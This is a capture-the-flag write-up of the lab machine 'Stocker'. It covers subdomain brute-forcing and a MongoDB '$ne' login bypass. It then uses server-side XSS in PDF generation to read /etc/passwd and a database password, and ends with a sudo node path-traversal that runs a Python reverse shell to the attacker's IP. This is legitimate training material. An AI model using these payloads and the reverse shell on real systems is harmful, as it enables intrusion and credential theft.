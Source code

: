 # Stocker

## Summary

## General Enumeration
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 19:09 CEST
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.46s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.17 seconds
```
We know that there are 2 services open: SSH service on port 22 and an HTTP server on the default port 80. We can check out the webb server, so we add the IP address to the /etc/hosts file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
```
We can now access the web server on the browser using its domain or the IP address.

We notice that there is no real functionality we can exploit, so there must be something hidden.
We can guess that there might be a different part of the site on a specific subdomain: this technique is called `VHOST` (Virtual Host) which refers to the practice of running more than one website on a single machine, using subdomains like `a.example.com` and `b.example.com`.
In this case it will be a Name-based Virtual Host because the websites are hosted on the same IP, the webserver can differentiate to which website it has to send incoming requests through the HTTP `Host` header, which could be `example.com` or `a.example.com`.
So we can try to bruteforce using the top used subdomains to find an hidden website.
We can write our own tool: we just have to make a GET request to `http://(subdomain).stocker.htb`, getting the subdomain from a wordlist and checking the status code of the response.

Little tip: if you want to write your own script be aware that the website automatically redirects you to the main website giving the status code `301` when handling 404 pages, some libraries, like the nodejs `request`, will follow the redirect by default, which means that the response you receive will be the response from the redirected URL, not the original URL, giving the status code `200` even for wrong subdomains.

A good tool we can use to do that is [GoBuster](https://github.com/OJ/gobuster), which allow us, over a lot of other things, to search for working subdomains of a website, going over a wordlist, implementing the script which i mentioned above.
You can get the wordlist from the GitHub repository [SecLists](https://github.com/danielmiessler/SecLists).
Using GoBuster: `gobuster vhost -k --domain stocker.htb --append-domain -u http://10.10.11.196 -w ~/Wordlists/subdomains.txt`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.10.11.196
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /home/vecio/Wordlists/subdomains-11m.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/28 19:35:53 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```
We quite easly find the subdomain `dev` which redirects us to the `/login` route.
Let's add the new domain to the `/etc/hosts` file and see if we can find something to exploit in the `/login` route.
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
10.10.11.196	dev.stocker.htb
```

Testing the new page, we find only a login form, which makes a POST request to the `/login` route with the data `username=admin&password=admin` being sent. If the request fails, as in this case, we get a login error.
We can assume that there could be some sort of database used that could be vulnerable to an injection.
We can find out using [Wappalyzer](https://www.wappalyzer.com/) that it is using the JS `Express` framework, so probably it is using a `NoSQL` database and this form may be vulnerable to a NoSQL Injection.

## Login Exploiting
Searching on the internet we can find this [cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/) and start testing, using BurpSuite, some common payloads to search for unwanted behaviour.
Since we know that it is using a NoSQL database, we want to test using JSON to format the data in the POST request, so we can change the request header `Content-Type` to be `application/json` and format the payload as JSON: `{"username":"admin", "password":"admin"}`.
We can now start testing some keywords and find that we can inject MongoDB `$ne` operator, so we can craft the following payload to bypass the authentication: `{"username": {"$ne":0}, "password": {"$ne":0}}` and get redirected to `/stock`.
The `$ne` operator stads for `not equal`, so we're passing a query where we ask for a user which username's not equal to 0 and password not equal to 0, this would end up in a success login and we get redirected logged in as an authenticated user.

Let's learn why this vulnerability is possible: looking at the source code of the website (which you can get after getting access to the server) we can find the method which manages the `/login` endpoint:
```js
app.post("/login", async (req, res) => {
  const { username, password } = req.body;

  if (!username || !password) return res.redirect("/login?error=login-error");

  // TODO: Implement hashing

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

  console.log(req.session);

  return res.redirect("/stock");
});
```
We can see that the server is getting the `username` and the `password` from the body of the request and passes those values to the mongodb `findOne()` method, without sanitizing them, which returns a document based on the queries that are passed, in this case username and password.
By injecting an object the query would become `findOne({ username: {$ne: 0}, password: ${$ne: 0} })` so it returns a user which username and password are not set to 0.

## Stock Enumeration
After we have successfully bypassed the authentication page we get redirected to the `/stock` route.
This page lets us add some items to a cart and proceed with the payment, which generates a check in pdf form.
The payment is done using a POST request to the endpoint `/api/order` with a json formatted body indluding a list of items that have been put in the cart, the response of the request includes an `orderId` which is used to create the route to view the pdf check `/api/po/64233a99566440aab8d5c56b`.
We can download the pdf file and use `Exiftool` to analyze it and find out that it is made using `Skia/PDF m108`.
Trying to edit the post request we can see that we can change the content of some fields and the result will be displayed in the pdf file, we can for example edit the `title` field of an item in the list and see that we get the edited title in the pdf result.
Doing a bit of research on the internet we find a [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) attack.
If a web page is creating a PDF using user controlled input, you can try to trick the bot that is creating the PDF into executing arbitrary JS code.
So, if the PDF creator bot finds some kind of HTML tags, it is going to interpret them, and you can abuse this behaviour to cause a Server XSS.

## Stock Exploitation
We can try to inject some payloads into the `title` field to see if the website is vulnerable.
If we inject this payload `<iframe src=file:///etc/passwd></iframe>` we can see in the returned pdf file the contents of the `/etc/passwd` file and find out the name of the user `angoose`.
Note that if the frame is too small to read the entire file, you can add some in-line css styling to make the frame bigger.

## User
If can find the path of the project by injecting the following payload `<script> document.write(window.location) </script>` which returns `file:///var/www/dev/pos/64233e83a8e0cb4c2d3cfb83.html` we can now try to find the main file in the project subdirectories.
With a few tries we can find the file `/var/www/dev/index.js` which contains the source code of the webserver.
We can also see the connection string to the MongoDB database:
```js
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```
Which logs the user `dev` with the password `IHeardPassphrasesArePrettySecure`.
If we try to login the user `angoose` with SSH and use the password we found to connect to MongoDB we can get in the server.
We can then find the user flag inside the `/home/angoose/user.txt` file.

## Root
First thing we can check what the user can do by running `sudo -l` passing the password we found erlier and get the following output:
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
We can see that we can run `node` as sudo on all js scripts inside the `/usr/local/scripts/` directory.
We can exploit this to make it run our own js script, the user doesn't have permission to write into the `/usr/local/scripts/` directory, but we can exploit the path expression.
Firstly we can write a js script inside the `/home/angoose/` directory to execute a privileged python reverse shell:
```js
var exec = require('child_process').exec;
exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.79\",4999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'", () => {console.log("Executed")});
```
we then listen to connections on the port `4999` on our local machine:
```
nc -lvnp 4999
```
and execute the script by running `sudo /usr/bin/node /usr/local/scripts/../../home/angoose/exploit.js`.
Once we instantiated a shell and we can get the root flag inside the `/root/root.txt` file.
